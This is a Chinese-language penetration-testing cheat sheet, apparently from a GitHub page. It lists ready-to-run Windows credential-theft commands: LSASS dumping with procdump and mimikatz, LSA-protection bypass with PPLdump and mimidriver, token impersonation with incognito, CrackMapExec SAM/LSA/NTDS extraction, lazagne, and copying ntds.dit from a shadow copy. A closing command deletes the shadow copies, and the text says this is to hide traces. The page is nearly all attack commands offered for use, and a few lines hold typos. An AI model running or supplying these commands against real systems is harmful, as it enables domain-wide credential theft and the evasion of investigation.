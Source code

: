 ### 获取密码

~~~asciiarmor
procdump.exe -accepteula -ma lsass.exe lsass.dmp

mimikatz "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords" "exit"

mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"

hashdump: post/windows/gather/smart_hashdump
cme smb <ip_range> -u <user> -p <password> -M lsassy
cme smb <ip_range> -u <user> -p '<password>' --sam / --lsa / --ntds
~~~



### 绕过LSA防护策略读取密码

~~~asciiarmor
PPLdump64.exe <lsass.exe|lsass_pid> lsass.dmp

mimikatz "!+" "!processprotect /process:lsass.exe /remove" "privilege::debug" "token::elevate"  "sekurlsa::logonpasswords" "!processprotect  /process:lsass.exe" "!-" #with mimidriver.sys 
~~~



### token窃取

~~~asciiarmor
.\incognito.exe list_tokens -u
.\incognito.exe execute -c "<domain>\<user>" powershell.exe

use incognito
impersonate_token <domain>\\<user>
~~~

之前粗略分析过 token

[Token窃取那些事 (0range-x.github.io)](https://0range-x.github.io/2021/09/30/Token窃取那些事/)

### 查看本地存储的所有密码

~~~
lazagne.exe all
~~~



### 卷影拷贝（获取域控所有hash）

~~~apl
diskshadow list shadows all

mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
~~~

~~~
管理员权限执行 
vssadmin create shadow /for=C: 
利用卷影副本卷名拷贝ntds.dit文件与用注册表导出system.hive 

copy \\?\GLOBALLROOT\Device\xxxxxxxxxx\windows\ntds\ntds.dit C:\ntds.dit reg sava hklm\system system.hive 
//导出system.hive文件到注册表 

vssadmin delete shadows /for=C: /quiet   //删除卷影，隐藏痕迹
~~~
